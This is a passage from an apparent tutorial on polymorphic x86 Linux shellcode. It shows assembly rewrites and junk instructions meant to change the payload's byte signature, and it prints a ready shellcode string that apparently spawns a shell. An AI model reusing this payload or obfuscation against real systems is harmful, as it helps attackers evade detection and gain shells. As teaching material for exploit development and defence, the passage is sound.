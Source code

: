 and insert it into `shellcode.c`, compile it and run

```
$ ./shellcode 
Shellcode Length:  41
$ 
$ 
$ 
```

there we go. So depending on how you write your polymorphic code the
size can increase or decrease. Typically it's a good idea to look at
instructions which should end up decreasing the size. Now you could
as an example you can change this two instructions as well

```
        xor eax, eax
        push eax
```

to

```
;       xor eax, eax
        mov ebx, eax
        xor eax, ebx

;       push eax
        mov dword [esp-4], eax
        sub esp, 4
```

Now, all of we've looked at currently changes the instructions we are
using by preserving functionality. You could also add instructions
with make nosense, as an example

```asm
;       mov dword [esp-4], 0x68732f2f
        cld
        mov esi, 0x57621e1e
        add esi, 0x11111111
        mov dword [esp-4], esi
        std
```

you can not using it but it adds to the fact that our output code 
would now look very very different. Now also assemble and link it
and get shellcode

```
$ shellcode-dump.sh poly
"\x89\xc3\x31\xd8\x89\x44\x24\xfc\x83\xec\x04\xfc\xbe\x1e\x1e\x62\x57\x81\xc6\x11\x11\x11\x11\x89\x74\x24\xfc\xfd\xc7\x44\x24\xf8\x2f\x62\x69\x6e\x83\xec\x08\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

paste it to `shellcode.c`, compile it and run
